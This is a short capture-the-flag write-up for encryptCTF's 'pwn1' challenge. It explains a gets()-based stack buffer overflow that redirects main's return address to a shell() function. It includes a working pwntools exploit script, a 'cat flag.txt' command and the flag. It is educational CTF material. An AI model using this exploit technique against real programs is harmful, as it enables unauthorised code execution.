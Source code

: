 # Solution

We have to overflow the buffer named buffer and overwrite `main()` return address to point to the `shell()` function entry point in order to pop a shell. `gets()` is used for the input. Remembrer that `gets` doesn't check the buffer bounds.

```python
from pwn import *

context.binary = "./pwn1"

p = process()
p.sendline(b"A" * 128 + b"a" * 12 + p32(context.binary.functions["shell"].address))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

## Flag
```plain
encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}
```